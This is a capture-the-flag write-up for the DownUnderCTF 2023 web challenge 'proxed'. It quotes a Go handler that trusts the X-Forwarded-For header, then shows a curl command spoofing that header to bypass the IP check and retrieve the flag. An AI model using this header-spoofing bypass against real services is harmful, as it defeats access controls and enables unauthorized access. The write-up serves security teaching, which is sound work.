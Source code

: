 # DownUnderCTF 2023

## proxed

> Cool haxxorz only
>
>  Author: Jordan Bertasso
>
> [`proxed.tar.gz`](proxed.tar.gz)

Tags: _web_

## Solution
We are provided with a simple web application. There is only one route and the handler is implemented as follows:

```go
http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
        xff := r.Header.Values("X-Forwarded-For")

        ip := strings.Split(r.RemoteAddr, ":")[0]

        if xff != nil {
                ips := strings.Split(xff[len(xff)-1], ", ")
                ip = ips[len(ips)-1]
                ip = strings.TrimSpace(ip)
        }

        if ip != "31.33.33.7" {
                message := fmt.Sprintf("untrusted IP: %s", ip)
                http.Error(w, message, http.StatusForbidden)
                return
        } else {
                w.Write([]byte(os.Getenv("FLAG")))
        }
})
```

The flag is printed, but only for the `trusted ip` 31.33.33.7. The trusted IP is read from `X-Forwarded-For` header which can be set manually. By doing so we get the flag:

```bash
$ curl http://proxed.duc.tf:30019/ -H "X-Forwarded-For: 31.33.33.7"
DUCTF{17_533m5_w3_f0rg07_70_pr0x}
```

Flag `DUCTF{17_533m5_w3_f0rg07_70_pr0x}`